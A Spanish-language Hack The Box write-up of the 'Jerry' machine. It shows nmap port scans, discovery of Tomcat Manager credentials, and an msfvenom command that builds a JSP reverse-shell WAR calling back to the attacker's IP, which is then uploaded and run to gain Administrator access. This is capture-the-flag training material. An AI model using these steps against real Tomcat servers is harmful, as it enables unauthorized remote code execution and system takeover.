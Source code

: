```yaml
---
title: "Hackthebox Jerry Writeup (OSCP Style)"
date: 2020-09-03 23:18:26 +/-0800
categories: [Hackthebox,Windows]
tags: [Tomcat,War]
image: /assets/img/Post/Jerry.jpg
---
```


Información de la máquina.

| Contenido | Descripción |
|--|--|
| OS: | **![](https://lh4.googleusercontent.com/MHW4d9kHrUo_W-GEyKNmxy4d80uPN5LB0VvwueRlflx-MIKT90EEwXBQZAv7Lg_N9dhTCed17DcmhNF-T_39FcYHrBAx7bHTDD1I7FGeqykdeKs849mRr1y0-aggvaZ7eYUYjPZG)** |
| Dificultad: | Facil |
| Puntos: | 20 |
| Lanzamiento: | 30-Junio-2018 |
| IP: | 10.10.10.95 |
| Primera sangre de usuario: | [echthros](https://www.hackthebox.eu/home/users/profile/2846) |
| Primera sangre de system: | [echthros](https://www.hackthebox.eu/home/users/profile/2846) |
| Creador: |  [mrh4sh](https://www.hackthebox.eu/home/users/profile/2570) |


# Reconocimiento.

Como siempre comenzaremos con un escaneo a los  `65535`  puertos de la máquina para poder encontrar cuales son los puertos abiertos.

```console
intrusionz3r0@kali:~$ nmap -p- --open -T5 -n -oG nmapScanAllPorts jerry.htb -Pn --min-rate 2000
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-03 22:48 CDT
Nmap scan report for jerry.htb (10.10.10.95)
Host is up (0.22s latency).
Not shown: 65534 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 66.11 seconds
```
Una vez terminado el escaneo lanzare scripts básicos de enumeración para detectar el servicio y la versión que se ejecuta bajo este puerto.

```console
intrusionz3r0@kali:~$ nmap -sCV -p8080 -oN targeted jerry.htb -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-03 22:51 CDT
Nmap scan report for jerry.htb (10.10.10.95)
Host is up (0.23s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.68 seconds
```

El escaneo determino lo siguiente:

* Puerto 8080 con servicio `tomcat`.

Rápidamente abro mi navegador y me dirijo a la página web.

![](https://lh5.googleusercontent.com/2A-_HIKhrJk5sZOQ9lpppN0teH4yZN_TAFYcFKQfNo49eMx4vpmZ6gaRyt2SymbFkYIGuQ9S-wtyoV8-ztUoTaktvu4mAIUDjxj02im32NwDgFnHiF4MyzweCYUbKp2zqshgxnv9)

Nos encontramos con la página por defecto de `tomcat`.

# Enumeración.

Si nos vamos a **Manager APP** se nos mostrara un panel de login.

![](https://lh5.googleusercontent.com/xycEGh_Dak0Akl4XtB_WWpocdxyklfBo_SwIKaYb-sHNfoV2oZhUA1ozN8_EugyCht_M_UPh_SDKLJRhO3bfzGSNybASbZWy2gIoXEKz5HB7nR3Ib_iNQSU4GrRaftsukiGWF0Q-)

Si colocamos cualquier cosa como credenciales el servidor nos responderá con un código de estado 401.

![](https://lh6.googleusercontent.com/CiQ4hnFH0Zr614Dhh-aozRAVOJADEi0u5yBOaRYDnL-O0TXmCIoE8O1pn61jdX266py_sCjflSvd03ASoVj_mSuNEFyhifQZlPeI87Q61yE5U9fIamlWEM8tkeCRHRhz8PG_7pvz)

Esto nos revelara lo que parece ser unas credenciales de acceso.

Cuando pruebo las credenciales en el panel de login, me autentica correctamente y accedemos al portal.

![](https://lh5.googleusercontent.com/yYlrjNj3GCuhu4sh1d-lio7GB86kVv8laedHq7eX_ExVbFAMEqt-J7BeEUMngzNoyfji9fl7FuOpyHVngzXuwyE9wEy6ntoYVqtma49iejNMFXs_WKnzTQ3qUkpSevBUQmfIcVbQ)

# Explotación

Como atacantes necesitamos buscar vías de explotación, en este caso si continuamos bajando encontraremos un apartado donde nosotros podremos subir archivos `war` al servidor.

![](https://lh6.googleusercontent.com/9gmxiGRCaZS2LpWxTxHncEkeGgqiRiD0SQ9kbNfOzZJpioeJR_uB3jk7kIN9_xKnQl28p7hCUqPJ3boFim5x6ahq2xg7ME0INdzdvCCBNowmWaCkVpnZg_WgEYHIAA6-V9HsnPHi)

**¿Que es un archivo war?**
Un archivo WAR es un archivo JAR utilizado para distribuir una colección de JavaServer Pages, servlets, clases Java, archivos XML, bibliotecas de tags y páginas web estáticas que juntos constituyen una aplicación web.


Por lo tanto esta es nuestra via de explotación, lo que haremos será lo siguiente:

* Haremos uso de la herramienta  `msfvenom` para crear un reverse shell en formato war.
* Subiremos el archivo malicioso.
* Ejecutamos nuestro archivo.


Creamos el payload.
```console
intrusionz3r0@kali:~$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.28 LPORT=1234 -f war > shell.war
```
Subimos el archivo al servidor.

![](https://lh3.googleusercontent.com/ktSiGSpiMBrkYkr3nQDky1MyVeFysAgWsmCScLEl19lh9LGrmBQ-kgm5Y2ITaYC9Oo_UshHCPZj6ALR_kZZqO_ur8SwX7Nu_QD4g0blBw7efWLeJ0RjFY_parJvGXHlGgCPU8Roq)


# Shell como Administrador.

Dejamos nuestro netcat a la escucha de cualquier conexión entrante y ejecutamos nuestro payload dirigiéndonos a [http://jerry.htb:8080/shell/](http://jerry.htb:8080/shell/).

![](https://lh3.googleusercontent.com/ZKQyJ4zYHWnqsZ3-wlxFPwFKhJLp7mhSJ-0Huf-dTtMT0ZX8j1Yids7Q3cQvZVhDow6CZ3wuO0645svGk4C0PTQ9_fen3Uon6tE6PQIMgiM3u83khvTkIhYMTIhyZsfLmwfHim2r)

**¡¡Somos Administradores!!**

![enter image description here](https://i2.wp.com/media0.giphy.com/media/mQG644PY8O7rG/giphy.gif)

Espero te haya gustado, recuerda seguirme en mis redes sociales para estar al pendiente de todo mi contenido.

#### **¡Muchas Gracias!**
